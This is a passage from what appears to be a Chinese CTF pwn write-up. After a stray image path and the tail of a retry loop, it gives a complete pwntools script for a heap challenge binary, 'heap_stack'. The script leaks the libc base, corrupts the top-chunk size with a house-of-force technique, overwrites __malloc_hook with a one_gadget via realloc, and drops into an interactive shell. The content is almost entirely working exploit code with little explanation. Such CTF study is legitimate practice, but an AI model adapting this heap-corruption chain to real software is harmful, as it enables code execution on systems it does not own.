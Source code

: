 ```c
		#break
		
	except:
		p.close()
		print 'trying...'
```



另外一种思路 house of lore + house of force

```python
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.log_level='debug'
context.update(arch='amd64',os='linux',timeout=1)
io=process("./heap_stack")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def push(size,ct='a'):
	io.sendlineafter(">> ",'1')
	io.sendlineafter("size?\n",str(size))
	io.sendafter("content?\n",ct)
def puush(size,ct='a'):#1
	io.sendlineafter(">> ",'2')
	io.sendlineafter("size?\n",str(size))
	io.sendlineafter("content?\n",ct)
def pop():
	io.sendlineafter(">> ",'3')
def show():#1
	io.sendlineafter(">> ",'4')
def main():
	push(0x1010,'a'*0x10+p64(0)+p64(0xfe1))
	push(0xfe0)
	push(0x1fb0)
	show()
	libc_base=u64(io.recv(8))-0x3c5161+0x600
	log.success("libc_base==>"+hex(libc_base))
	push(0x1010,'a'*0x10+p64(0)+p64(0xffffffffffffffff))
	io.recvuntil("at  ")
	top_chunk=int(io.recv(14),16)+0x10
	log.success("top_chunk==>"+hex(top_chunk))
	malloc_hook=libc_base+0x3c4b10
	realloc=libc_base+0x84710
	ogg=libc_base+[0x45226,0x4527a,0xf0364,0xf1207][1]
	log.success("realloc==>"+hex(realloc))
	puush(malloc_hook - top_chunk -0x30)
	push(0x20,p64(0)+p64(ogg)+p64(realloc+4))
	io.sendlineafter(">> ",'1')
	io.sendlineafter("size?\n",str(0x10))
	#gdb.attach(io,'b *{}'.format(ogg))
	io.interactive()
if __name__=='__main__':
	main()
```